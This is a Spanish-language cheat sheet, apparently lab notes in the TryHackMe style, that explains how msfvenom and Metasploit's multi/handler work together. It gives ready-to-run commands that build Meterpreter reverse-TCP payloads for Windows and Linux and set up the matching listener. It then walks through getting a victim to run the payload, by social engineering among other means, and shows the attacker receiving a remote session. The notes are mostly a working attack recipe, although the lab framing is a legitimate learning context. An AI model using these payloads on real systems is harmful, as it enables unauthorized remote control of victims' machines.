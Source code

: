### RESUMEN COMPLETO: USO DE `msfvenom` Y `multi/handler`

`msfvenom` y `multi/handler` se usan **en la máquina atacante**, no en la víctima.
Ambos trabajan juntos: uno **genera el payload malicioso**, el otro **espera la conexión de retorno** una vez que el payload se ejecuta en la máquina víctima.

---

### FLUJO GENERAL

1. **En la máquina atacante**:

   * Se genera un **payload** con `msfvenom`.
   * Se inicia un listener con `multi/handler` en `msfconsole`.

2. **En la máquina víctima**:

   * Se ejecuta el payload generado (por ingeniería social, explotación, etc.).

3. **Resultado**:

   * La víctima se conecta de vuelta a la máquina atacante.
   * El handler recibe la conexión y abre una sesión remota.

---

### COMANDOS PASO A PASO

```bash
# Atacante: generar el payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.0.1 LPORT=4444 -f exe -o shell.exe
```

```bash
# Atacante: iniciar Metasploit
sudo msfconsole

# Atacante: configurar listener
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.8.0.1
set LPORT 4444
exploit -j
```

```bash
# Víctima: ejecutar payload
shell.exe
```

---

### ROLES

* **Máquina atacante**:

  * Ejecuta `msfvenom` y `msfconsole`.
  * Alojada localmente o remotamente (por ejemplo, Kali Linux en TryHackMe).
  * Tiene dirección IP accesible por la víctima (e.g. `tun0`, `eth0`, etc.).
  * Recibe la shell.

* **Máquina víctima**:

  * Ejecuta el payload malicioso.
  * Puede estar expuesta en red local o remota.
  * Inicia conexión de reverse shell hacia el atacante.

---

### GLOSARIO TÉCNICO

* **msfvenom**: herramienta para generar payloads (código malicioso ejecutable).
* **multi/handler**: módulo de Metasploit que actúa como listener para recibir conexiones entrantes de shells reversas.
* **payload**: código que se ejecuta en la víctima para establecer control remoto.
* **reverse shell**: tipo de conexión donde la víctima inicia la conexión hacia el atacante.
* **Meterpreter**: payload avanzado de Metasploit que otorga control remoto con múltiples funcionalidades.
* **LHOST**: dirección IP de la máquina atacante donde se espera la conexión entrante.
* **LPORT**: puerto en la máquina atacante donde se escucha la conexión.
* **exploit -j**: lanza el listener en segundo plano.
* **sessions**: lista y gestiona las conexiones activas.

---

### CONDICIÓN CRÍTICA

El valor de `PAYLOAD` debe coincidir **exactamente** entre:

* El usado con `msfvenom`.
* El configurado con `set PAYLOAD` en `multi/handler`.

Si no coinciden, la conexión se pierde o el shell no se establece.

---

### EJEMPLO FUNCIONAL REAL

**Payload:**

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.25 LPORT=443 -f elf -o rev.elf
```

**Handler:**

```bash
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 10.10.14.25
set LPORT 443
exploit -j
```

**Víctima ejecuta:**

```bash
chmod +x rev.elf && ./rev.elf
```

**Atacante recibe:**

```bash
[*] Meterpreter session 1 opened
```

---

### NOTAS OPERATIVAS

* `msfvenom` y `multi/handler` nunca van en la víctima.
* Ambos están en la máquina del atacante.
* La víctima solo necesita ejecutar el payload (de cualquier forma: manual, automatizada, por explotación, etc.).

Esto asegura control remoto desde la víctima hacia el atacante.
